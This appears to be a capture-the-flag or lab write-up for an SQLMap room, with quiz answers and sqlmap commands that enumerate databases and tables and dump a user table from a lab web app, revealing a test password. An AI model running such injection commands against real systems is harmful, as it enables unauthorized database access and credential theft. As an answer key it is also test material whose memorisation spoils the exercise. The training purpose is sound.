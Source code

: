 Q1. Which language builds the interaction between a website and its database?

Ans: sql

Q2. Which boolean operator checks if at least one side of the operator is true for the condition to be true?Which boolean operator checks if at least one side of the operator is true for the condition to be true?

Ans: or

Q3. Is 1=1 in an SQL query always true? (YEA/NAY)

Ans: YEA

Q4. Which flag in the SQLMap tool is used to extract all the databases available?

Ans:--dbs

Q5. What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)

Ans:sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables

Q6. How many databases are available in this web application?

sqlmap "-u http://10.201.4.143/ai/includes/user_login?email=test&password=test" --dbs --level=5

<img width="949" height="470" alt="Screenshot 2025-08-05 232740" src="https://github.com/user-attachments/assets/d212d5f9-7608-4d36-b188-87c33c4188c5" />

Ans:6

Q7. What is the name of the table available in the "ai" database?

sqlmap "-u http://10.201.4.143/ai/includes/user_login?email=test&password=test" -D ai --tables --level=5

<img width="924" height="425" alt="Screenshot 2025-08-05 232730" src="https://github.com/user-attachments/assets/01bd7d39-cedf-46d9-b267-320228afb32c" />

Ans:user

Q8. What is the password of the email test@chatai.com?

sqlmap -u "http://10.201.4.143/ai/includes/user_login?email=test&password=test" -D ai -T user --dump --level=5

<img width="957" height="598" alt="Screenshot 2025-08-05 232939" src="https://github.com/user-attachments/assets/baf987fb-17ec-4b1c-93f9-6887404d4d20" />

Ans:12345678

